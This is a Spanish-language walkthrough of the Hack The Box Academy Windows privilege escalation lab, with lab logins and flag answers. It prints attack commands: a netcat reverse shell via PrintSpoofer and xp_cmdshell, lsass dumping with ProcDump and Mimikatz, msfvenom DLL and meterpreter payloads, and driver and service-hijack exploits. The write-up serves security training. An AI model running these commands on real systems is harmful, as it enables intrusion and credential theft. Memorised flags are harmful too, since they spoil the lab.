# Windows Privilege Escalation

## Getting the Lay of the Land

### Situational Awareness

1. **What is the IP address of the other NIC attached to the target host?**

RDP to 10.129.80.164 (ACADEMY-WINLPE-SRV01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.80.164 /size:95% /dynamic-resolution +clipboard
```

Abrimos una powershell y escribimos el siguiente comando

```
ipconfig /all
```

<p align="center"> 

</p>

answer: **172.16.20.45**

2. **What executable other than cmd.exe is blocked by AppLocker?**

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

> Este comando sirve para **auditar las restricciones de seguridad** en la máquina. En palabras sencillas, le pide a Windows que te muestre la "lista negra" y la "lista blanca" de programas que los usuarios tienen permitido o prohibido abrir.

**`| select -ExpandProperty RuleCollections`**: Toma toda la información anterior y "desempaqueta" (expande) los grupos de reglas (ejecutables, scripts, instaladores) para que puedas ver el nombre del programa y si está permitido (`Allow`) o bloqueado (`Deny`).

<p align="center"> 

</p>

answer: **powershell_ise.exe**

### Initial Enumeration

1. **What non-default privilege does the htb-student user have?**

RDP to 10.129.80.164 (ACADEMY-WINLPE-SRV01), with user "<font color="#c00000"><font color="#00b050">htb-student</font></font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.80.164 /size:95% /dynamic-resolution +clipboard
```

Abrimos powershell con el maximo privilegio

```
whoami /priv
```

<p align="center"> 

</p>

2. **Who is a member of the Backup Operators group?**

```
Get-LocalGroupMember -Group "Backup Operators"
```

<p align="center"> 

</p>

3. **What service is listening on port 8080 (service name not the executable)?**

```
netstat -ano | findstr 8080
```

<p align="center"> 

</p>

```
Get-Process -Id 2252
```

<p align="center"> 

</p>

answer: **Tomcat8**

4. **What user is logged in to the target host?**

> Para saber qué usuarios tienen una sesión iniciada (ya sea de forma local o remota), existen un par de comandos muy rápidos en Windows.

> Dado que estamos en PowerShell, ejecuta este comando que consulta las sesiones activas en el sistema:

```
query user
```

<p align="center"> 

</p>

answer: **sccm_svc**

5. **What type of session does this user have?**

Esta pregunta la podemos responder con la foto anterior realizada

answer: **console**

### Communication with Processes

1. **What service is listening on 0.0.0.0:21? (two words)**

RDP to 10.129.80.164 (ACADEMY-WINLPE-SRV01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
netstat -ano | findstr :21
```

<p align="center"> 

</p>

```
Get-Process -Id 2152
```

<p align="center"> 

</p>

answer: **FileZilla Server**

2. **Which account has WRITE_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe?**

Usaremos el siguiente comando para encontrar la herramienta **accesschk.exe**

```
Get-ChildItem -Path C:\ -Filter accesschk.exe -Recurse -ErrorAction SilentlyContinue
```

> Directory: C:\Tools\AccessChk
> -a----        4/16/2021   1:37 PM        1378688 accesschk.exe

```
accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v
```

Es una herramienta oficial de Microsoft (de la suite _Sysinternals_) diseñada para responder a una sola pregunta: **¿Quién tiene permiso para hacer qué en este sistema?**

Cuando estamos auditando un equipo para elevar privilegios, necesitas encontrar archivos, servicios o carpetas mal configurados (donde un usuario normal tenga más permisos de la cuenta). `AccessChk` te permite ver los permisos reales y efectivos de cualquier objeto en Windows.

<p align="center"> 

</p>

En conclusión, el comando lo que hace es **mostrar en detalle qué cuentas de usuario pueden escribir en el conducto de SQL Express**

answer: **NT SERVICE\MSSQL$SQLEXPRESS01**

## Windows User Privileges

### SeImpersonate y SeAssignPrimaryToken

1. **Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt**

Authenticate to 10.129.80.164 (ACADEMY-WINLPE-SRV01), with user "<font color="#00b050">sql_dev</font>" and password "<font color="#c00000">Str0ng_P@ssw0rd!</font>"

```
usr/share/doc/python3-impacket/examples/mssqlclient.py sql_dev@10.129.80.233 -windows-auth
```

<p align="center"> 

</p>

Usamos este comando para ejecutar comandos del sistema operativo

```
enable_xp_cmdshell
```

Luego, este comando para saber quien somos

```
xp_cmdshell whoami
```

> nt service\mssql$sqlexpress01 

```
xp_cmdshell whoami /priv
```

El comando `whoami /priv` confirma que [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) aparece en la lista. Este privilegio se puede usar para suplantar una cuenta privilegiada como `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) se puede usar para explotar los privilegios `SeImpersonate` o `SeAssignPrimaryToken` a través del abuso de reflexión DCOM/NTLM.

<p align="center"> 

</p>

En mi kali, preparamos el siguiente puerto de escucha:

```
sudo nc -lnvp 8443
```

Luego, en la maquina objetivo llevamos el siguiente comando:

Este comando sirve para **conseguir una consola de comandos (Shell) con los máximos privilegios de Windows (`NT AUTHORITY\SYSTEM`) y enviarla de vuelta a tu máquina de atacante**.

```
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.7 8443 -e cmd"
```

<p align="center"> 

</p>

Luego en el puerto de escucha se vería así:

<p align="center"> 

</p>

answer: **F3ar_th3_p0tato!**

### SeDebugPrivilege

1. **Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm_svc account.**

RDP to 10.129.80.233 (ACADEMY-WINLPE-SRV01), with user "<font color="#00b050">jordan</font>" and password "<font color="#c00000">HTB_@cademy_j0rdan!</font>"

```
xfreerdp /u:jordan /p:HTB_@cademy_j0rdan! /v:10.129.83.120 /size:95% /dynamic-resolution +clipboard
```

Abrimos la powershell como admin y llevamos acabo las travesuras.

```
whoami /priv
```

En el mundo de Windows, si tienes `SeDebugPrivilege`, tienes el poder de leer la memoria RAM de cualquier programa que esté corriendo en la máquina. Y quien puede leer la memoria del sistema, puede adueñarse de las contraseñas de todos los demás. Por eso, en cuanto lo ves activo en una auditoría, sabes que la escalada a Administrador está garantizada.

<p align="center"> 

</p>

```
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

> **ProcDump**, al ser una herramienta oficial y legítima de Microsoft, **no es detectada como virus**. Los atacantes la usan para llevarse el archivo `lsass.dmp` a su propia máquina (Kali Linux) y ahí, de forma segura y sin antivirus que los moleste, extraer las contraseñas con total tranquilidad.

- **`-accepteula`**: Significa _"Acepto los términos de licencia automáticamente"_. Evita que salga una ventana flotante pidiéndote hacer clic en "Aceptar", lo cual rompería tu terminal si estás conectado de forma remota.
    
- **`-ma`**: Es el argumento clave. Le dice al programa que haga un **volcado completo de la memoria** (_Full Process Dump_). Esto asegura que se copie absolutamente todo lo que el proceso tiene guardado en la RAM (incluyendo hilos de ejecución, datos de usuario, etc.).
    
- **`lsass.exe`**: Es el nombre del proceso objetivo que quieres clonar. `lsass` (Local Security Authority Subsystem Service) es el encargado de gestionar la seguridad de Windows; por lo tanto, **es el proceso que tiene las contraseñas y hashes NTLM en memoria**.
    
- **`lsass.dmp`**: Es el nombre del archivo final que tú vas a crear. Toda la información que ProcDump extraiga de la memoria RAM se guardará en este archivo de texto/binario en tu disco actual.

```
C:\Tools\Mimikatz\x64\mimikatz.exe
sekurlsa::minidump Procdump\lsass.dmp
sekurlsa::logonpasswords
```
  
- **C:\Tools\Mimikatz\x64\mimikatz.exe** --> Activa la herramienta **mimikatz**

- **sekurlsa::minidump Procdump\lsass.dmp** --> **El Objetivo:** Cambiar el "foco" de Mimikatz de la memoria viva al archivo que tú creaste. En lugar de intentar leer el proceso protegido en tiempo real (lo cual suele alertar a los antivirus), le ordenas a Mimikatz: _"No mires al sistema operativo; a partir de ahora, todo lo que te pida lo vas a buscar dentro de este clon/archivo offline (`lsass.dmp`)"_.

- **sekurlsa::logonpasswords** --> **El Objetivo:** Extraer y parsear los secretos. Su propósito es rebuscar dentro de ese archivo clonado en busca de los proveedores de autenticación de Windows (como Kerberos, NTLM, WDigest) para **extraer en texto claro (o en formato de Hash NTLM) las credenciales de todos los usuarios** que tenían una sesión activa en la máquina en el momento en que sacaste la foto con ProcDump.

<p align="center"> 

</p>

answer: **64f12cddaa88057e06a81b54e73b949b**

### SeTakeOwnershipPrivilege

1. **Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.**

RDP to 10.129.83.120 (ACADEMY-WINLPE-SRV01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.83.120 /size:95% /dynamic-resolution +clipboard
```

El objetivo de esta actividad es **aprovechar** el privilegio `SeTakeOwnershipPrivilege` (el cual ya posee nuestro usuario) para **tomar posesión** de un archivo restringido y, de esa manera, modificar sus permisos para poder leer su contenido.

Por tanto, para activarlo haremos lo siguiente comandos:

```
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

- **Import-Module .\Enable-Privilege.ps1** --> Cargar las funciones necesarias en la memoria de PowerShell. Este script contiene el código en lenguaje de bajo nivel (llamando a la API de Windows mediante funciones como `OpenProcessToken` y `AdjustTokenPrivileges`) que se necesita para poder alterar los permisos de tu sesión actual. Por sí solo no activa nada, simplemente **le enseña a PowerShell cómo hacerlo**.

- **.\EnableAllTokenPrivs.ps1** --> - **El Objetivo:** **Encender el interruptor de todos tus poderes.** Este script toma las funciones que importaste en el paso anterior, revisa tu "tarjeta de identificación" (tu token de usuario), busca todos los privilegios que tu cuenta tiene asignados pero que están dormidos (`Disabled`), y cambia su estado a **`Enabled` (Activado)**.

<p align="center"> 

</p>

```
icacls C:\TakeOwn\flag.txt /grant htb-student:F
type C:\TakeOwn\flag.txt
```

Su objetivo es **modificar la lista de permisos de seguridad (llamada ACL) del archivo para otorgarle a tu usuario acceso total**.

answer: **1m_th3_f1l3_0wn3r_n0W!**

## Windows Group Privileges

### Windows Built-in Groups

1. **Leverage SeBackupPrivilege rights and obtain the flag located at c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt**

```
xfreerdp /u:svc_backup /p:HTB_@cademy_stdnt! /v:10.129.85.45 /size:95% /dynamic-resolution +clipboard
```

En primer lugar debemos saber de que trata el permiso **SeBackupPrivilege**:

Esta diseñado para programas de copia de seguridad que permite a un usuario **leer y copiar cualquier archivo o carpeta del sistema operativo, ignorando por completo todos los candados y restricciones de seguridad (ACL)** que tengan puestos. En ciberseguridad, esto significa que si tu usuario tiene este privilegio activo, Windows le dará acceso absoluto para clonar archivos ultra secretos (como las contraseñas del sistema o las carpetas privadas del Administrador) bajo la excusa legal de que simplemente está realizando un "respaldo de seguridad".

Para activarlo haremos lo siguiente:

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Luego revisamos los permisos, y comprobaras que esta vez **SeBackupPrivilege** está habilitado:

```
whoami /priv
```

<p align="center"> 

</p>

Luego el siguiente comando funcionará.

```
Copy-FileSeBackupPrivilege "c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt" "C:\tools\flag.txt"
```

Luego otra forma de hacerlo es usar la herramienta **robocopy**, la clave de esta herramienta que con solo el usuario tenga el permiso **SeBackupPrivilege** ya funcionaria, ya que el comando se encarga de habilitarlo automáticamente para la funcion que se use.

```
robocopy "C:\Users\Administrator\Desktop\SeBackupPrivilege" "C:\tools" flag.txt /B
type C:\tools\flag.txt
```

answer: **Car3ful_w1th_gr0up_m3mberSh1p!**

### Event Log Readers

1. **Using the methods demonstrated in this section find the password for the user mary.**

RDP to with user "<font color="#00b050">logger</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:logger /p:HTB_@cademy_stdnt! /v:10.129.85.61 /size:95% /dynamic-resolution +clipboard
```

Luego, abrimos la powershell e introducimos el siguiente comando

```
wevtutil qe Security /rd:true /f:text | findstr /i "mary"
```

`wevtutil` (Windows Event Utility) es la herramienta oficial de Windows para interactuar con los registros de eventos desde la consola.

- **`qe Security`**: Significa _"Query Events"_ (Consultar Eventos) en el registro de **Security** (Seguridad). El registro de seguridad es la caja negra donde Windows anota de forma obligatoria cosas críticas, como cuándo alguien inicia sesión o **qué programas y comandos se ejecutan en la máquina**.
    
- **`/rd:true`**: Significa _"Read Direction: True"_ (Dirección de lectura: Verdadero). Esto le dice a Windows que lea los eventos empezando **desde el más reciente hacia el más antiguo**. Así encuentras antes lo último que hizo el administrador.
    
- **`/f:text`**: Le dice que transforme el evento (que originalmente está guardado en un formato binario raro de Windows) a **texto plano común y corriente**, para que sea legible por un humano.

`findstr` es el buscador de texto clásico de Windows. Recibe todo el texto de los eventos y actúa como un colador.

- **`/i`**: Significa _"Ignore case"_ (Ignorar mayúsculas y minúsculas). Busca tanto "Mary", "MARY" o "mary".
    
- **`"mary"`**: Es la palabra clave. `findstr` descarta el 99% de los logs y **solo deja pasar a la pantalla las líneas donde aparezca escrita la palabra "mary"**.

<p align="center"> 

</p>

answer: **W1ntergreen_gum_2021!**

### DnsAdmins

1. **Leverage membership in the DnsAdmins group to escalate privileges. Submit the contents of the flag located at c:\Users\Administrator\Desktop\DnsAdmins\flag.txt**

RDP to with user "<font color="#00b050">netadm</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En mi kali tenemos que crear un archivo .dll con msfvenom:

```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

El archivo creado se llama **adduser.dll**, luego abrimos el rdp pero con la diferencia de que compartiremos la carpeta donde se encuentre el archivo **adduser.dll**

```
xfreerdp /u:netadm /p:HTB_@cademy_stdnt! /v:10.129.86.121 /size:95% /dynamic-resolution /drive:Shared,/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation +clipboard
```

Luego nos iremos a la siguiente ruta **This PC\Shared on kali** y traslademos el archivo a nuestro escritorio.

<p align="center"> 

</p>

Abrimos la powershell, e introducimos este comando:

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

- **`dnscmd.exe`**: Es la herramienta de línea de comandos nativa de Windows para administrar el servicio de Servidor DNS de Microsoft.
    
- **`/config`**: Le dice a la herramienta que vas a modificar la configuración global del servidor DNS.
    
- **`/serverlevelplugindll`**: Este es el parámetro clave. Le indica al servidor DNS que deseas registrar un **complemento (plugin)** en forma de archivo `.dll`. Los plugins legítimos se usan para expandir las capacidades del DNS (por ejemplo, añadir filtros personalizados o resolver nombres de formas complejas).
    
- **`C:\Users\netadm\Desktop\adduser.dll`**: Es la ruta del archivo que contiene el código que se va a ejecutar. Por el nombre del archivo (`adduser.dll`), podemos deducir que no es un plugin de DNS legítimo, sino una DLL diseñada para **crear un usuario administrador** en el sistema.

```
sc.exe stop dns
sc query dns
```

Luego paramos el servicio dns, y comprobamos si se ha parado correctamente.

```
sc.exe start dns
```

Luego, inicio el servicio dns

```
shutdown /l
```

Reiniciamos nuestra maquina windows, una vez iniciada comprobamos si el usuario ntadm esta dentro del grupo admins

```
net group “Domain Admins” /dom
```

<p align="center"> 

</p>

Como estamos dentro, podemos leer la flag.txt

```
type c:\Users\Administrator\Desktop\DnsAdmins\flag.txt
```

answer: **Dll_abus3_ftw!**

### Print Operators

1. **Follow the steps in this section to escalate privileges to SYSTEM, and submit the contents of the flag.txt file on administrator's Desktop. Necessary tools for both methods can be found in the C:\Tools directory, or you can practice compiling and uploading them on your own.**

RDP to with user "<font color="#00b050">printsvc</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:printsvc /p:HTB_@cademy_stdnt! /v:10.129.43.31 /size:95% /dynamic-resolution +clipboard
```

En esta ocasión, si o sí tenemos que abrir la terminal como administrator, para que nos aparezca el permiso **SeLoadDriverPrivilege** que significa que el usuario actual tiene la capacidad de **cargar y descargar controladores de dispositivos (drivers) directamente en el Kernel de Windows**.

```
whoami /priv
```

<p align="center"> 

</p>

```
C:\Tools\EoPLoadDriver.exe System\CurrentControlSet\MyCustomService C:\Tools\Capcom.sys
```

- `C:\Tools\EoPLoadDriver.exe`: Es la herramienta de explotación. Windows normalmente requiere que uses herramientas oficiales o el administrador de servicios para cargar drivers, lo cual requiere ser Administrador. `EoPLoadDriver.exe` es un programa diseñado específicamente para saltarse esa restricción interactuando directamente con las funciones internas de la API de Windows (`NtLoadDriver`), permitiendo a un usuario con el privilegio `SeLoadDriverPrivilege` cargar un driver sin necesidad de ser Administrador completo.

* `System\CurrentControlSet\MyCustomService`: Es la **ruta del Registro de Windows** donde se va a dar de alta el driver.

* `C:\Tools\Capcom.sys`

Es el archivo del **driver que se va a meter al sistema**.

- `Capcom.sys` es un driver legítimo antiguo desarrollado por la empresa de videojuegos Capcom.

- Aunque está **firmado digitalmente y es totalmente válido** para Windows (por lo que el sistema operativo no lo bloquea), contiene una vulnerabilidad de diseño muy famosa: permite que cualquier programa en modo usuario le pida ejecutar funciones directamente en el Kernel sin verificar credenciales.

Luego dentro de la carpeta tools ejecutamos el siguiente conmando. 

```
cd /tools
.\EnableSeLoadDriverPrivilege.exe
```

Da lugar a la habilitación del permiso **SeLoadDriverPrivilege**

<p align="center"> 

</p>

A continuación el siguiente comando realizará una acción muy específica: **registra y carga un controlador (driver) en el núcleo (Kernel) de Windows** utilizando el privilegio `SeLoadDriverPrivilege` que acabo de habilitar.

```
.\EoPLoadDriver.exe System\CurrentControlSet\MyCustomService .\Capcom.sys
```

* `.\EoPLoadDriver.exe`: Es la herramienta de explotación. Normalmente, para cargar un driver en Windows se necesitan herramientas oficiales que requieren ser Administrador total. `EoPLoadDriver.exe` está diseñado para saltarse esa restricción: utiliza funciones internas de Windows (como `NtLoadDriver`) que permiten a cualquier usuario que tenga el privilegio `SeLoadDriverPrivilege` activo cargar un driver sin ser administrador.

* `System\CurrentControlSet\MyCustomService`: Es la **ruta del Registro de Windows** donde se va a dar de alta el driver.

* `.\Capcom.sys`: Es el archivo del **driver que vas a meter al sistema**. Es un driver legítimo antiguo desarrollado por la empresa de videojuegos Capcom. Al ser un driver oficial, está **firmado digitalmente**, por lo que Windows lo acepta como seguro y permite su carga. Sin embargo, tiene un fallo de diseño muy famoso: permite que cualquier programa común le pida ejecutar funciones directamente en el Kernel sin verificar si es administrador.

```
cd ExploitCapcom
.\ExploitCapcom.exe
```

Abrirá una shell con permisos de **authority\system**

<p align="center"> 

</p>

```
type C:\Users\Administrator\Desktop\flag.txt
```

answer: **Pr1nt_0p3rat0rs_ftw!**

### Server Operators

1. **Escalate privileges using the methods shown in this section and submit the contents of the flag located at c:\Users\Administrator\Desktop\ServerOperators\flag.txt**

RDP to with user "<font color="#00b050">server_adm</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:server_adm /p:HTB_@cademy_stdnt! /v:10.129.43.42 /size:95% /dynamic-resolution +clipboard
```

Como el usuario **server_adm** pertene al grupo **Server Operators**, Windows le otorgaba el derecho legítimo de modificar la configuración de estos servicios. Te aprovechaste de ese derecho para cambiar las instrucciones del servicio y hacer que ejecutara tu propio comando con los superprivilegios de `SYSTEM`.

<p align="center"> 

</p>

```
sc.exe qc AppReadiness
```

Es la herramienta para gestionar servicios. `qc` significa _Query Config_ (Consultar Configuración).

<p align="center"> 

</p>

Le digo a Windows que voy a modificar los parámetros de ese servicio.

```
sc.exe config AppReadiness binPath= "cmd.exe /c copy c:\Users\Administrator\Desktop\ServerOperators\flag.txt C:\Tools\flag_copiada.txt"
```

Le ordeno a Windows que lance el servicio AppReadiness

```
sc.exe start AppReadiness
```

Y leo la flag copiada que se encontraba dentro de la carpeta **ServerOperators**

```
type C:\Tools\flag_copiada.txt
```

answer: **S3rver_0perators_@ll_p0werfull!**

## Attacking the OS

### User Account Control

1. **Follow the steps in this section to obtain a reverse shell connection with normal user privileges and another which bypasses UAC. Submit the contents of flag.txt on the sarah user's Desktop when finished.**

RDP to with user "<font color="#00b050">sarah</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:sarah /p:HTB_@cademy_stdnt! /v:10.129.86.138 /size:95% /dynamic-resolution +clipboard
```

Se encuentra la flag en el escritorio.

answer: **I_bypass3d_Uac!**

### Weak Permissions

1. **Escalate privileges on the target host using the techniques demonstrated in this section. Submit the contents of the flag in the WeakPerms folder on the Administrator Desktop.**

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.86.139 /size:95% /dynamic-resolution +clipboard
```

Iniciamos powershell, luego nos iremos a **tools**

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

<p align="center"> 

</p>

Esto significa que el servicio corre con los máximos privilegios (`LocalSystem`), pero tu usuario actual **tiene permisos para sobrescribir o reemplazar directamente el archivo ejecutable `SecurityService.exe`**

A continuación, Lo que quiero hacer es que cuando el servicio inicie, en lugar de arrancar el antivirus _PCProtect_, ejecute un comando que copie la flag a nuestra carpeta `C:\Tools`

PowerUp tiene una función nativa para hacer esto de un solo golpe. Ejecuto el siguiente comando en mi PowerShell:

```
Install-ServiceBinary -ServiceName 'SecurityService' -Command "cmd.exe /c copy C:\Users\Administrator\Desktop\WeakPerms\flag.txt C:\Tools\flag_weakperms.txt"
```

<p align="center"> 

</p>

```
sc.exe stop SecurityService
sc.exe start SecurityService
Get-Content C:\Tools\flag_weakperms.txt
```

Reiniciamos el servicio y obtenemos la flag.txt

answer: **Aud1t_th0se_s3rv1ce_p3rms!**

### Kernel Exploits

1. **Try out the 3 examples in this section to escalate privileges to NT AUTHORITY\SYSTEM on the target host. Submit the contents of the flag on the Administrator Desktop.**

RDP to 10.129.43.13 (ACADEMY-WINLPE-WS02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En esta actividad tenemos que preparar una archivo malicioso con msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.168 LPORT=8443 EXITFUNC=process -f exe > maintenanceservice.exe
```

El archivo **maintenanceservice.exe** dentro de mi ruta **/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation**

```
